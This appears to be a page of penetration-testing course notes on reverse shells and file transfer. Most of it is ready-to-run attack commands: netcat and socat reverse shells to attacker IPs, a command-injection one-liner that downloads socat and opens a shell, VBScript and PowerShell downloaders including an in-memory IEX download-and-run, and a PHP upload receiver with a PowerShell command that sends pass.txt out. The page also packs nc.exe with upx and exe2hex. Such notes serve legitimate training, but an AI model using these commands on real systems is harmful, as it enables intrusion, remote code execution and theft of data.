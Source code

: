 # Module 16 (File Transfers)

## Generating reverse shell commands <a href="#generating-reverse-shell-commands" id="generating-reverse-shell-commands"></a>

attcker machen

```bash
nc -nvlp 4444 -e /bin/bash
```

victim

```bash
nc -nv 192.168.x.x 4444
```

<figure><img src="../.gitbook/assets/image (151).png" alt=""><figcaption></figcaption></figure>

### Upgrading the shell

```bash
python -c 'import pty; pty.spawn("/bin/bash")'

#using arrows

#Ctrl + z
stty raw -echo
fg

# In reverse shell
reset
export SHELL=bash
export TERM=xterm-256color
stty rows <num> columns <cols>
```

## Method 1: Python pty module <a href="#method-1-python-pty-module" id="method-1-python-pty-module"></a>

One of my go-to commands for a long time after catching a dumb shell was to use Python to spawn a pty. The [pty module](https://docs.python.org/2/library/pty.html) let’s you spawn a psuedo-terminal that can fool commands like `su` into thinking they are being executed in a proper terminal. To upgrade a dumb shell, simply run the following command:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'                                      
```

```bash
stty raw -echo
```

## Method 2: Using socat <a href="#method-2-using-socat" id="method-2-using-socat"></a>

[socat](http://www.dest-unreach.org/socat/doc/socat.html) is like netcat on steroids and is a very powerfull networking swiss-army knife. Socat can be used to pass full TTY’s over TCP connections.

If `socat` is installed on the victim server, you can launch a reverse shell with it. You _must_ catch the connection with `socat` as well to get the full functions.

The following commands will yield a fully interactive TTY reverse shell:

**On Kali (listen)**:

```bash
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

**On Victim (launch)**:

```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

With a command injection vuln, it’s possible to download the correct architecture `socat` binary to a writable directoy, chmod it, then execute a reverse shell in one line:

```bash
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.1.10:4444
```

Windows File transfer

```bash
sudo apt update && sudo apt install pure-ftpd
```

### FTP configurations.

```bash
#!/bin/bash
if [[ $(/usr/bin/id -u) -ne 0 ]]; then
    echo "Not running as root"
    exit
fi
sudo apt update && sudo apt install pure-ftpd
sudo groupadd ftpgroup
sudo useradd -g ftpgroup -d /dev/null -s /etc ftpuser
sudo pure-pw useradd limbo -u ftpuser -d /ftphome
sudo pure-pw mkdb
cd /etc/pure-ftpd/auth/
sudo ln -s ../conf/PureDB 60pdb
sudo mkdir -p /ftphome
sudo chown -R ftpuser:ftpgroup /ftphome/
sudo systemctl restart pure-ftpd
```

### FTPd file commands

```bash
echo open 192.168.1.10>> ftp.txt
echo USER hacktor>> ftp.txt
echo hacktor>> ftp.txt
echo bin>> ftp.txt
echo GET nc.exe>> ftp.txt
echo bye>> ftp.txt
```

\#How to run it

```bash
ftp -v -n -s:ftp.txt
```

\#Fixing time out problem\
Code:

```bash
echo "40110 40210" | sudo tee /etc/pure-ftpd/conf/PassivePortRange
sudo service pure-ftpd restart
```

### VBScript to download files

```visual-basic
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs

#How to run it 
[code]

cscript wget.vbs http://192.168.1.10/evil.txt evil.txt
```

```bash
upx -9 nc.exe
sudo exe2hex -x  nc.exe  -p nc.cmd
```

### Power shell commands to download files

<pre class="language-powershell"><code class="lang-powershell">echo $webclient = New-Object System.Net.WebClient >>wget.ps1 
echo $url = "http://192.168.1.10/shell" >>wget.ps1 
echo $file = "shell" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
[code]
#How to run it 
[code]
<strong>powershell -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
</strong>[code]

#Powersehll In one line 
[code]
<strong>powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.10/upload.php', 'pass.txt')
</strong>[code]

#On Fly command  --> Run powershell script without downloading it on the hard disk
[code]
powershell IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.1.10/hello.ps1')
[code]


#Uploading files 
#Preparing kali upload direcotry 
sudo mkdir /var/www/uploads
sudo chown www-data: /var/www/uploads
</code></pre>

### Save this php code into /var/www/html/

```php
<?php
$uploaddir = '/var/www/uploads/';
$uploadfile = $uploaddir . $_FILES['file']['name'];
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile) ?>
```

### This is how to use it

```bash
powershell (New-Object System.Net.WebClient).UploadFile('http://192.168.1.10/upload.php', 'pass.txt')
```
